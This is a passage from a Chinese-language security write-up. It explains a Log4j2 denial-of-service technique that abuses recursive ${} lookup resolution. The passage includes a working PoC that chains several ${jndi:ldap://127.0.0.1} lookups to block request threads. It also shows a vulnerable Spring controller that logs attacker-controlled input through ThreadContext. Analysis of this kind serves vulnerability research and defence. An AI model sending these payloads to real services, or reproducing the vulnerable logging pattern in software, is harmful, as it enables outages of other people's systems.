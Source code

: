 现在发现了能让程序阻塞的办法，那么怎样构造`Payload`以达成更长时间的阻塞呢

`Log4j2`在处理`${}`是递归解析，也就是说会处理一个字符串中的所有`${}`并分别处理对应的值，每一次的处理都会造成`2`秒的等待，所以只需简单的拼接即可

```java
private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length,
                       List<String> priorVariables) {
    ...
    substitute(event, bufName, 0, bufName.length());
    ...
    String varValue = resolveVariable(event, varName, buf, startPos, endPos);
    ...
    int change = substitute(event, buf, startPos, varLen, priorVariables);
}
```

例如拼接三个会阻塞更长的时间

（这里是针对本地`80`端口，实际上可以用大概率关闭的高位端口）

```poc
${jndi:ldap://127.0.0.1}${jndi:ldap://127.0.0.1}${jndi:ldap://127.0.0.1}
```

这时候会产生疑问:

在一个`web`请求中，这样的`payload`只能让我当前的请求阻塞住，如何实现真正的拒绝服务攻击，让目标网站无法正常处理别人的请求呢？



**利用**

**通常情况下，记录登录用户的身份等信息是常见的操作**

如果程序员选择了`Log4j2`这种`ctx`记录的方式而不是手动拼接字符串，将会导致该漏洞

```java
@RequestMapping("/test")
@ResponseBody
public String test(String userId) {
    try {
        String id = new String(Base64.getDecoder().decode(userId));
        // 记录用户登录ID
        ThreadContext.put("loginId", id);
        // 记录该用户已登录
        logger.info("user login");
        // 其他业务逻辑
        // ...
    } catch (Exception e) {
        return e.getMessage();
    }
    return "";
}
```

正常情况下：`http://localhost:8080/test?userId=MQ==`

将会记录
